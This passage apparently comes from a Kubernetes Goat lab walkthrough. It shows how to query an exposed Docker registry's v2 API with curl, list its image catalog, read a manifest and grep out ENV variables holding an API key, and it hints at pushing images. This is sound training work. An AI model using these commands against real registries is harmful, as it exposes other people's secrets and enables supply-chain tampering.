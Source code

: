 ## 🎉 Solution & Walkthrough

### 🎲 Method

:::note

As this is an intentionally vulnerable design, we directly provided the endpoint. In the real world, you have to do some recon or even need to exploit the authenticated registries by a combination of other vulnerabilities chains.

:::

* Based on the scenario and information, we can identify that it's possible docker container private registry

* After reading some documentation and googling, here are the simple API endpoint queries for talking to the container registry

* To query the registry API v2

```bash
curl http://127.0.0.1:1235/v2/
```

* The following endpoint is to query the catalog information, which returns all the details of images available in the container registry

```bash
curl http://127.0.0.1:1235/v2/_catalog
```

![Scenario 7 image catalog](./sc-7-2.png)

* We can get more information about the specific image using the image name with a tag with a manifest endpoint

```bash
curl http://127.0.0.1:1235/v2/madhuakula/k8s-goat-users-repo/manifests/latest
```

![Scenario 7 image info](./sc-7-3.png)

* Now we can see this container image has ENV variables that contain API key information, so we can quickly `grep` that out

```bash
curl http://127.0.0.1:1235/v2/madhuakula/k8s-goat-users-repo/manifests/latest | grep -i env 
```

![Scenario 7 api key info](./sc-7-4.png)

:::tip

This can be taken a little further by using the `docker` client to download the images locally and analyzing. Also in some cases, you can even push the image to the registry based on the permissions and privileges.

:::
